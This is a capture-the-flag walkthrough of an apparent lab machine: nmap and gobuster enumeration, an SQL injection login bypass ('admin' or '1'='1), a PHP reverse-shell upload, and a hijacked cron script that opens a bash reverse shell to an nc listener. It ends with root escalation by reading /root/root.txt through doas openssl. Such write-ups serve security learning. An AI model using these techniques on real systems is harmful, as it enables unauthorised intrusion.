 # nmap

# Command
```sh
nmap -sV -sC -v 10.10.113.22
```

# Result
```sh
Scanning 10.10.113.22 [1000 ports]
Discovered open port 445/tcp on 10.10.113.22
Discovered open port 80/tcp on 10.10.113.22
Discovered open port 22/tcp on 10.10.113.22
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
| 256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_ 256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

# 80-http

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



# gobuster 

## Command
```sh
gobuster dir -u http://10.10.113.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
# Result
```sh
Starting gobuster in directory enumeration mode
===============================================================
/admin
(Status: 301) [Size: 312] [--> http://10.10.113.22/admin/]
/shadow
(Status: 200) [Size: 25]
/passwd
(Status: 200) [Size: 25]
```

# View_web

Nothing much

visit directories from gobuster scan
-------------------

/admin
-------------------
id_rsa =`VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`  
Decode the base64 using cyberchef = “Trust me it is not this easy..now get back to enumeration :D”  


/shadow
------------------------------------------
we get this text = `bm90IHRoaXMgZWFzeSA6RA==`  
First we identify it using Cipheridentifier  
Then use Cyberchef to decode it = “not this easy :D ”


/passwd
------------------------------------------
We get the same text = `bm90IHRoaXMgZWFzeSA6RA==`


# 445-tcp

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



# gobuster
## Command
```sh
gobuster dir -u http://10.10.113.22:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#Results
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management
(Status: 301) [Size: 322] [--> http://10.10.113.22:445/management/]
```

# View_web
## ip address `http://10.10.113.22:445/management/`

management/admin/login.php
---------------------------------------------------------------
Tried an sql injection and i worked with the first trial :)  
`It's actually “ admin' or '1'='1  `  

Now i searched for a place to upload my reverse shell script.  
Found in admin user settings allows one to upload a file and that's my way in.I hope so.  
using the php reverse shell script i got a shell.  


Stabilising shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 2021 tms_backup
-rw-rw---- 1 plot_admin plot_admin 33 Oct 28 2021 user.txt
```
found the user flag but lack the permisions to view it.  
Checking the /etc/crontab.  
I found a backup.sh file that is running after some time .  

At this point was stuck.
But the file is under our control thus i can edit it .  

Generated a bash reverse shell using an online reverse shell generator.  
Then preserved the contents of the origin backup.sh into another file.  
Created one of my own and gave it executable permissions.  
Encounted some issues but later on used my machine to create the file and give it executable permissions.  
Then used python server and wget to load it on to the machine.  
After this we run nc to listen on the port
```sh
nc -lvnp 5555
```
user flag = ...

## prive2
I downloaded linpeas in my machine then used python3 -m http.server.  
Used wget to load the file into the attack machine.  
```sh
chmod +x linpeas
To run use = ./linpeas
cat /etc/doas.conf
doas openssl enc -in /root/root.txt

```
root flag = ...
